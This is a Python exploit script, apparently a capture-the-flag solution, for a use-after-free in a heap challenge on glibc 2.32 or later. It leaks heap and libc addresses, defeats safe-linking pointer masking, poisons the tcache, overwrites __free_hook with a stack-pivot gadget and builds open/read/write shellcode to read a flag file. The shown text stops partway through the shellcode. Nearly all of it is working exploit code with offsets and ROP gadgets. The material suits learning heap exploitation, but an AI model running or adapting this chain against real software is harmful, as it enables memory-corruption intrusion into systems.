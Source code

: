 ```py
#UAF
#Glibc version 2.32 added a new check |chunk should be aligned| and free pointers gets masked.
#To bypass, this requires heap leak.
#Fast bin attack is now dead because of the alignment check.
##define PROTECT_PTR(pos, ptr) \
#  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
#define REVEAL_PTR(ptr)  PROTECT_PTR (&ptr, ptr)
#------------------------------------------------------

####Addr
main_arena = 0x3b6ba0
free_hook = 0x3b8e80
mprotect = 0xf0830

####gadgets
add_rsp = 0x00077f66
pop_rdi = 0x001273dc
pop_rsi = 0x00126117
pop_rdx = 0x000c45ed

####exploit
add(0x28,"B"*0x28) #0
remove(0)
add(0x28,"A"*14+"BB") #1
view(1)
io.recvuntil("BB")
heap_base = u64(io.recvn(6)+b"\x00\x00")-0x2d0
print("Heap base: "+hex(heap_base))
add(0xd8,"HKHK")#2
add(0xd8,"HKHK")#3
remove(2)
remove(3)
target_ptr = mask(heap_base,heap_base+0x10)
edit(3,p64(target_ptr)) #uaf
add(0xd8,"/home/challenge/flag\x00")#4
add(0xf8,"HKHK")#5
add(0xd8,p64(0x0002000000000400)+p64(0x0)+p64(0x0)+p64(0x0000000700000000))#6 #set tcache-count of chunk 0x101 size to 7
remove(5) #remove chunk and get unsortedbin
edit(6,p64(0x00020000000000400)+p64(0x0)*3) #set tcache-count to back to 0
add(0x88,"AAAAAABB")#7 #leak libc now
view(7)
io.recvuntil("BB")
libc_base = u64(io.recvn(6)+b"\x00\x00")-0x3b6c90
print("Libc: "+hex(libc_base))
edit(6,p64(0x00120000000000401)+p64(0x0)*15+p64(libc_base+free_hook))
add(0x18,p64(libc_base+add_rsp))#8
shellcode = asm(f"""
		xor rax, rax
		mov al, 0x2
		xor rsi, rsi
		xor rdx, rdx
		mov rdi, {heap_base+0x4d0}
		syscall
		mov r10, rax
		xor rax, rax
		mov rdi, r10
		mov rsi, {heap_base+0x100}
		mov rdx, 0x50
		syscall
		mov rax, 0x1
		mov rdi, rax
		syscall
```
